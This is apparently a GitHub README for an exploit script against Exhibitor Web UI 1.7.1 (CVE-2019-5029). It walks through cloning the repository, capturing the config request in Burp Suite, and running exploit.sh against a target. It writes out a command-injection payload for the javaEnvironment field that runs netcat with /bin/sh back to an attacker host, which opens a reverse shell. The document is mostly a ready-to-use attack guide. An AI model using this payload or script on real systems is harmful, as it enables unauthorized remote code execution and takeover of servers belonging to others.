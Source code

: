 # Exihibitor-RCE
Exihibitor Web Ui 1.7.1 RCE, CVE-2019-5029

## Step 1:

$ git clone https://github.com/thehunt1s0n/Exihibitor-RCE/

## Step 2:

$ cd Exihibitor-RCE/

## Step 3 (optional):

You might need to edit json data payload in the script. To do that simply capture the request using burpsuite when comiting the changes in the config tab of exihibitor and copy pasting into the curl command in the script.

![image](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png)

Make sure to change the javaEnvironment with the following:

"javaEnvironment":"$(/bin/nc -e /bin/sh '$ATTACKER_HOST' '$ATTACKER_PORT' &)"


## Step 4:

./exploit.sh <host> <port> <attacker_host> <attacker_port>

Example:

$ ./exploit.sh 192.168.197.98 8080 192.168.45.187 8080

![gif](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/Exihibitor_capture.gif)
